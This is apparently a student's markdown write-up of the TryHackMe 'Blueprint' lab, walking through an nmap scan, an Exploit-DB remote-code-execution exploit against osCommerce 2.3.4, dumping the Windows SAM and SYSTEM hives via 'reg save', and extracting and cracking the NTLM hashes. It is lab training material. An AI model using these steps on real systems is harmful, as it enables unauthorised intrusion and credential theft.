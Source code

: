 ## TryHackMe - Blueprint Methodology

This is the attack methodology I used for TryHackMe's Blueprint box.
I have based this document on a general concept of the intrusion kill-chain:
Reconnaissance > Weaponization > Delivery > Exploitation > Installation > Command & Control > Actions on Objective

---
### Environment
#### Operating System
Latest kali-VM rolling update
#### Tools
Python scripts

### Methodology
#### Objectives/Flags
 "Lab" user NTML hash decrypted and root.txt
#### Reconnaissance
First I checked for open ports using a basic nmap scan
```bash
nmap -t4 <TargetIP>
```
```
PORT      STATE    SERVICE
80/tcp    open     http
135/tcp   open     msrpc
139/tcp   open     netbios-ssn
443/tcp   open     https
445/tcp   open     microsoft-ds
512/tcp   filtered exec
1152/tcp  filtered winpoplanmess
1875/tcp  filtered westell-stats
3306/tcp  open     mysql
4662/tcp  filtered edonkey
7741/tcp  filtered scriptview
8080/tcp  open     http-proxy
9010/tcp  filtered sdr
20005/tcp filtered btx
26214/tcp filtered unknown
27000/tcp filtered flexlm0
49152/tcp open     unknown
49153/tcp open     unknown
49154/tcp open     unknown
49158/tcp open     unknown
49159/tcp open     unknown
49160/tcp open     unknown
```
I could see some HTTP open ports and decided to see what was accessible
```
http://<TargetIP>:8080/
  http://<TargetIP>:8080/oscommerce-2.3.4/catalog/
```
I could determine the framework being used for the commerce page was oscommerce-2.3.4. Using this information I visited Exploit-DB to see what was available.
```
https://www.exploit-db.com/exploits/50128
```
#### Weaponization 
N/A
#### Delivery
N/A
#### Exploitation
Using the remote-code-execution exploit from the DB, the target was attacked
```
python 50128.py http://<TargetIP>:8080/oscommerce-2.3.4/catalog/
```
Once the attack was successful, I now had RCE shell access into the target.
#### Installation 
N/A
#### Command & Control
N/A
#### Actions on Objective
I started by trying to determine the nature of the host and explore it's file directories
```
whoami
  nt autheority\system
```
```
DIR C:\users
  Administrator
    C:\users\Administrator\Desktop\root.txt.txt
      more C:\users\Administrator\Desktop\root.txt.txt
        THM{*}
  DefaultAppPool
  Lab
```
The filesystem was Windows and exploring user files I happened to come across my first objective ```root.txt.txt```. According to my mentor the filename was done this way to obfuscate it from broad searches.
My next objective was to locate and extract the NTML hash of the "Lab" user.

I must admit I didn't know what NTML was or where it was found however I had a reasonable understanding through hack-sims that this was going to be a hashed password found somewhere on the system. After some googling I was able to understand that this hash was most likely going to be in the Windows "SAM" file generally located at ```C:\Windows\system32\config\SAM```. (source: https://security.stackexchange.com/questions/113295/location-of-password-hashes-on-a-windows-local-machine)
```
DIR C:\Windows\system32\config\
```
I could see that the file existed on the system and my goal was to now try and exfiltrate this file/data out of the target to my local machine. I had a lot of trial and error trying to get at this file. Various failures included printing its contents, copying it to the visible HTTP directory, Uploading it to a local-http/ftp server.
Eventually I stumbled upon a page which explained how this data could be exported from its registry key. (source: https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-hashes-from-sam-registry)
```
reg save hklm\system system
reg save hklm\sam sam
```
With the data exported out of the system-files I could now move them around without any system-protection. I moved these files to the visible HTTP directory.
```
copy <missing> http://<TargetIP>:8080/oscommerce-2.3.4/docs/
```
From my localhost I was able to save these files. My next step was to dump the hashes out of the files. Using the website, I had found earlier I had to find a tool that was going to assist me.
```
python pwdump.py /home/kali/tools/TryHackMe/Blueprint/system /home/kali/tools/TryHackMe/Blueprint/sam
  Administrator:500:<hash>:<hash>:::
  Guest:501:<hash>:<hash>:::
  Lab:1000:<hash>:<hash>:::
```
Success, I've got the hash of the "Lab" user and now needed to decrypt this. I spent some time trying to mess with HashCat to crack it but after some more googling I was directed to Crackstation.
```
https://crackstation.net/
   Insert <hash> -> crack
     <password>
```
I spared my system it's resources and was able to instantly receive the cleartext password.

---
### After-action
#### What I've learned
This was the first "real" box that I've had a go at and had a blast from the whole experience. My mentor had helped me connect the dots on reconnaissance and exploitation through finding online resources/code. Once I was in, most of my frustrations was trying to understand what NTML was and more specifically how I was going to extract that information to my localhost. Lastly why burn the computing power when an online service can crack passwords for you?
#### What I would've done differently
Given that this was my first box, I was a bit messy with what I was actually doing on the target Machine. I had rebooted it by attempting to run arbitrary files and possibly executed programs in trial and error.
I would like to record what actions I had taken (including timestamps?) and what failures I had run into for posterity/documentation.
Lastly, I should have spent the extra effort in removing the extracted system files from the export location and even the visible HTTP directory to reduce my footprint.

